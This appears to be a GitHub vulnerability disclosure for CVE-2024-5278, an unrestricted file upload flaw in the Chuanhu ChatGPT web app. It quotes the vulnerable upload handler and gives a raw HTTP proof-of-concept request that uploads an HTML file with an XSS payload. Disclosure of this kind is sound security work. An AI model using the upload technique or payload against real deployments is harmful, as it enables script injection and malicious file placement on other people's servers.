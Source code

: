 # CVE-2024-5278 - File Upload Vulnerability in (chuanhuchatgpt)

![2](https://github.com/mohamedabdelhady933/MY-CVEs-Analyzing/assets/73122852/29c8266b-b62f-4f64-a643-e6d8a4f29333)

## Introduction

**CVE** : CVE-2024-5278
**Description** : File Upload Vulnerability on python server leads to medium-impact.
**Version** : 20240310
**Product** : Chuanhu Chatgpt

---

## Identifying the code vulnerability (Static Analysis)

The chuanhuchatgpt product has File Upload Vulnerability at /upload endpoint while uploading a new file that make a POST request.

```
def handle_file_upload(self, files, chatbot, language):
        """if the model accepts multi modal input, implement this function"""
        status = gr.Markdown.update()
        image_files = []
        other_files = []
        if files:
            for f in files:
                if f.name.endswith(IMAGE_FORMATS):
                    image_files.append(f)
                else:
                    other_files.append(f)
            if image_files:
                if self.multimodal:
                    chatbot.extend([(((image.name, None)), None) for image in image_files])
                    self.history.extend([construct_image(image.name) for image in image_files])
                else:
                    gr.Warning(i18n("该模型不支持多模态输入"))
            if other_files:
                try:
                    construct_index(self.api_key, file_src=files)
                    status = i18n("索引构建完成")
                except Exception as e:
                    import traceback
                    traceback.print_exc()
                    status = i18n("索引构建失败！") + str(e)
        if other_files:
            other_files = [f.name for f in other_files]
        else:
            other_files = None
        return gr.File.update(value=other_files), chatbot, status
```


The handle_file_upload function takes 3 arguments, Then check if the file's name ends with it's image format if so it will append. Then at the end update and store the file

At this point the function don't sanitize the file or content type or file extension . So i was able to upload html file with XSS payload also i was able to upload python file. and any extension




## POC

upload any file and change the name and extension then it will be uploaded

```
POST /upload HTTP/1.1
Host: 127.0.0.1:7860
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1:7860/
Content-Type: multipart/form-data; boundary=---------------------------330262580617276905211507475889
Origin: http://127.0.0.1:7860
Content-Length: 270
Connection: close
Cookie: _ga=GA1.1.898989309.1712525195; _gid=GA1.1.684123961.1712525195; _ga_R1FN4KJKJH=GS1.1.1712528655.2.1.1712528675.0.0.0
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

-----------------------------330262580617276905211507475889
Content-Disposition: form-data; name="files"; filename="test.html"
Content-Type: text/html

<h1>test</h1><img src=x onerror=alert(1)>
-----------------------------330262580617276905211507475889--
```


